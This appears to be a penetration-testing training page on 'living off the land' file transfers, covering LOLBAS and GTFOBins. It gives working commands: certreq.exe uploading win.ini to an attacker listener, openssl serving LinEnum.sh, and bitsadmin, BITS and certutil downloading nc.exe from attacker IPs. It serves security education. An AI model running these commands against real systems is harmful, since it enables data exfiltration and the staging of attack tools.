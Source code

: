 # Living off The Land

The phrase "Living off the land" was coined by Christopher Campbell [@obscuresec](https://twitter.com/obscuresec) & Matt Graeber [@mattifestation](https://twitter.com/mattifestation) at [DerbyCon 3](https://www.youtube.com/watch?v=j-r6UonEkUw).

The term LOLBins (Living off the Land binaries) came from a Twitter discussion on what to call binaries that an attacker can use to perform actions beyond their original purpose. There are currently two websites that aggregate information on Living off the Land binaries:

* [LOLBAS Project for Windows Binaries](https://lolbas-project.github.io/)
* [GTFOBins for Linux Binaries](https://gtfobins.github.io/)

Living off the Land binaries can be used to perform functions such as:

* Download
* Upload
* Command Execution
* File Read
* File Write
* Bypasses

This section will focus on using LOLBAS and GTFOBins projects and provide examples for download and upload functions on Windows & Linux systems.

## Using the LOLBAS and GTFOBins Project

[LOLBAS for Windows](https://lolbas-project.github.io) and [GTFOBins for Linux](https://gtfobins.github.io/) are websites where we can search for binaries we can use for different functions.

## LOLBAS

To search for download and upload functions in [LOLBAS](https://lolbas-project.github.io/) we can use `/download` or `/upload`.

<figure><img src="../../../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1)  (12).png" alt=""><figcaption></figcaption></figure>

Let's use [CertReq.exe](https://lolbas-project.github.io/lolbas/Binaries/Certreq/) as an example.

### **Upload win.ini to our Pwnbox**

We need to listen on a port on our attack host for incoming traffic using Netcat and then execute certreq.exe to upload a file.

```shell-session
C:\htb> certreq.exe -Post -config http://192.168.49.128:8000/ c:\windows\win.ini
Certificate Request Processor: The operation timed out 0x80072ee2 (WinHttp: 12002 ERROR_WINHTTP_TIMEOUT)
```

This will send the file to our Netcat session, and we can copy-paste its contents.

### **File Received in our Netcat Session**

```shell-session
al1abb@htb[/htb]$ sudo nc -lvnp 8000

listening on [any] 8000 ...
connect to [192.168.49.128] from (UNKNOWN) [192.168.49.1] 53819
POST / HTTP/1.1
Cache-Control: no-cache
Connection: Keep-Alive
Pragma: no-cache
Content-Type: application/json
User-Agent: Mozilla/4.0 (compatible; Win32; NDES client 10.0.19041.1466/vb_release_svc_prod1)
Content-Length: 92
Host: 192.168.49.128:8000

; for 16-bit app support
[fonts]
[extensions]
[mci extensions]
[files]
[Mail]
MAPI=1
```

If you get an error when running `certreq.exe`, the version you are using may not contain the `-Post` parameter. You can download an updated version [here](https://github.com/juliourena/plaintext/raw/master/hackthebox/certreq.exe) and try again.

## GTFOBins

To search for the download and upload function in [GTFOBins for Linux Binaries](https://gtfobins.github.io/), we can use `+file download` or `+file upload`.

<figure><img src="../../../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1)  (13).png" alt=""><figcaption></figcaption></figure>

Let's use [OpenSSL](https://www.openssl.org/). It's frequently installed and often included in other software distributions, with sysadmins using it to generate security certificates, among other tasks. OpenSSL can be used to send files "nc style."

### **Create Certificate in our Pwnbox**

We need to create a certificate and start a server in our Pwnbox.

```shell-session
al1abb@htb[/htb]$ openssl req -newkey rsa:2048 -nodes -keyout key.pem -x509 -days 365 -out certificate.pem

Generating a RSA private key
.......................................................................................................+++++
................+++++
writing new private key to 'key.pem'
-----
You are about to be asked to enter information that will be incorporated
into your certificate request.
What you are about to enter is what is called a Distinguished Name or a DN.
There are quite a few fields but you can leave some blank
For some fields there will be a default value,
If you enter '.', the field will be left blank.
-----
Country Name (2 letter code) [AU]:
State or Province Name (full name) [Some-State]:
Locality Name (eg, city) []:
Organization Name (eg, company) [Internet Widgits Pty Ltd]:
Organizational Unit Name (eg, section) []:
Common Name (e.g. server FQDN or YOUR name) []:
Email Address []:
```

### **Stand up the Server in our Pwnbox**

```bash
al1abb@htb[/htb]$ openssl s_server -quiet -accept 80 -cert certificate.pem -key key.pem < /tmp/LinEnum.sh
```

### **Download File from the Compromised Machine**

Next, with the server running, we need to download the file from the compromised machine.

```bash
al1abb@htb[/htb]$ openssl s_client -connect 10.10.10.32:80 -quiet > LinEnum.sh
```

## Other Common Living off the Land tools:

## Bitsadmin Download function

The [Background Intelligent Transfer Service (BITS)](https://docs.microsoft.com/en-us/windows/win32/bits/background-intelligent-transfer-service-portal) can be used to download files from HTTP sites and SMB shares. It "intelligently" checks host and network utilization into account to minimize the impact on a user's foreground work.

### **File Download with Bitsadmin**

```powershell
PS C:\htb> bitsadmin /transfer wcb /priority foreground http://10.10.15.66:8000/nc.exe C:\Users\htb-student\Desktop\nc.exe
```

PowerShell also enables interaction with BITS, enables file downloads and uploads, supports credentials, and can use specified proxy servers.

### **Download**

```powershell
PS C:\htb> Import-Module bitstransfer; Start-BitsTransfer -Source "http://10.10.10.32:8000/nc.exe" -Destination "C:\Windows\Temp\nc.exe"
```

## Certutil

Casey Smith ([@subTee](https://twitter.com/subtee?lang=en)) found that Certutil can be used to download arbitrary files. It is available in all Windows versions and has been a popular file transfer technique, serving as a defacto `wget` for Windows. However, the Antimalware Scan Interface (AMSI) currently detects this as malicious Certutil usage.

### **Download a File with Certutil**

```shell-session
C:\htb> certutil.exe -verifyctl -split -f http://10.10.10.32:8000/nc.exe
```
